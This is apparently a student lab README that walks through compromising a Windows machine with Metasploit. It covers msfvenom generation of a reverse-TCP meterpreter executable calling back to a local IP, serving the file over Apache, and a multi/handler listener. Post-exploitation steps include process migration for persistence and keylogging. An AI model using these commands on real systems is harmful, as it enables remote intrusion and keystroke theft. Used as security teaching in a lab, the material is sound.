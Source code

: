 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/04cdb2ad-171d-4bc8-9f3b-de13c01bed03)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/12d68b0b-ae6f-49f8-ad66-22ee7d3b6d54)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/1b07c03c-fc3d-4f0c-b6f7-dbaec901978c)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/a76c6064-4e3a-4e8f-a6c8-701a0aae22ac)

Check the status of apache2

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/114ded0d-212a-480a-809c-1816157058f2)

Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/b1f3e83e-c94b-4315-8c16-e1c501b08cdc)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/3f2f692a-0757-4c22-86db-8fffef3677d6)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/2d555ca3-7a9e-49df-9330-7a2c602421b2)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/6a3d422d-0ce4-46a9-99eb-f7a1e5135b7d)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/50aa8203-6af7-48f5-8c89-15c8093b5821)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/969c8b8d-6972-43ed-ba74-4e847bf277aa)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
